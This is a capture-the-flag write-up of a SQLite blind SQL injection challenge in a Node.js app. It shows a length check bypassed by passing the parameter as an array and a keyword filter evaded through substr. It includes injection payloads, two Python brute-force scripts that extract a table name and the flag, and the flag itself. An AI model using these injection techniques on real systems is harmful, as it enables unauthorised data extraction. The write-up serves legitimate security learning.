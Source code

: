 # Challenge link
URL:      [http://45.122.249.68:20020/](http://45.122.249.68:20020/) (maybe the server was shut down)

# Challenge description
Recon carefully so as not to miss anything

# Challenge source file
URL: [https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing](https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing)

# Difficulty
Not easy

# Author
dcthinh

# Approach
- SQL injection is a simple but dangerous web vulnerability so every CTF challenge which I have attended has at least one. At the time I saw the challenge's name, I realized that it would be SQLi.
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/20954e6b-56c0-4cfb-96e2-a8e09c0630c6)

- I tried to click on the *Home* and *About* buttons but nothing happened. Let's try to read the source:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d38dc2a3-7d6d-4d51-93ea-37cf6012325c)

- I still see nothing there. It's time to read the source code.
- In *app.js*, I saw that they used the SQLite3 db. There's a table named API, and the flag table has a format name: "flag_" + an UUIDv4 string. More important, there is a hidden page which I found when reading this piece of code:
  ```
  app.get('/search', (req, res) => {
      const { name } = req.query;
      const Filterduidui = /(union|or|substring|substrs|if|case|=|when|then|join|load_extension|likely|unhex|\|\|)/i;
      if (!name) {
          return res.redirect('/search?name=1');
      }
  ```
- They filtered some keywords.
- Let's navigate the hidden site:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/91332e12-a283-4b6c-b2af-603f15a035d1)
  
- It is just a simple joke dispenser. According to the source code, it has 6. But it's not the problem. We need to take the flag.
- Because it is an SQLi challenge, I also tried to input something like *' and 1 is 1--* into the *name* parameter. A message appeared:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d88bfe0f-1a37-4bc0-8d4e-25b899d95200)

- That means, the input of *name* is too long, because of this:
  ```
  if (name.length > 6) {
        return res.status(400).send({ err: 'U r hacker?' });
    }
  ```
- But this site is written in JavaScript. Since the whole program did not check if the *name* parameter is a string, *what would it be if I turned it into an array?* Let's check:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/9d8f109e-c0b2-4812-9ba7-be31cc60f347)

- It worked!!! If you don't know why it worked, the reason is JavaScript determines the length of an array is the total number of elements inside it. Now I can input an arbitrary length payload.

- I tried to input something weird into the *name* parameter. The joke disappeared immediately:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/4594b0e9-ad9f-457b-83f8-0fce3510586b)
  
- At that time, I immediately claimed that I should use the Blind SQL injection technique, due to the message appearance behavior of the site. But the keywords *substring* and *substrs* were blocked.
- After an hour of thinking, I realized that SQLite uses *substr* keyword, not *substring* or *substrs*. This - is - the - keyword - to - solve - this - challenge.

# Problem-solving
  ## Database name length brute-forcing
  - I don't know the flag table name, so I have to find it. The name is randomly generated by this function:
    ```
    const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
    ```
  - First, I wrote a payload to determine the length of the table name (for not being time-consuming). I use Burp Suite for convenience:
    ```
    1' AND (SELECT LENGTH(name) FROM sqlite_master WHERE type is 'table' AND name LIKE 'flag_%') is 1--
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/ef581b82-f55a-4fe1-ae23-52430745bed4)
  - It worked. It's time to brute-force.
  - I set the Grep-Match to the string *"id":1* as the clue:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/109ae2c4-fdbc-4336-8c2e-1b3b6f716f41)

  - Setup done, now attack phase:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d6e047f5-89ec-4e9f-88a4-5913046709f4)

  - The result is 41. Since the *flag_* takes 5 characters, I have to find 36 other chars.
  ## Flag brute-forcing
  - I write a simple Python code for this purpose:
    ```
    import requests

    char_set = '_1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = 'flag_'
    print(flag)

    for i in range(6, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(name, {i}, 1) FROM sqlite_master WHERE type IS 'table' AND name LIKE 'flag_%') IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - The flag table name is: flag_c1abd148_acae_40be_a953_eae333f90da0
  - The remaining work is quite simple. This Python code is used to find the flag:
    ```
    import requests

    char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789	 !}_{\"\#$%&'()*+,-./:;?@[\]^`|~"
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = ''

    for i in range(1, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(flag, {i}, 1) FROM flag_c1abd148_acae_40be_a953_eae333f90da0) IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - Flag: W1{I_th1nk_u_r_so_lite^_^}


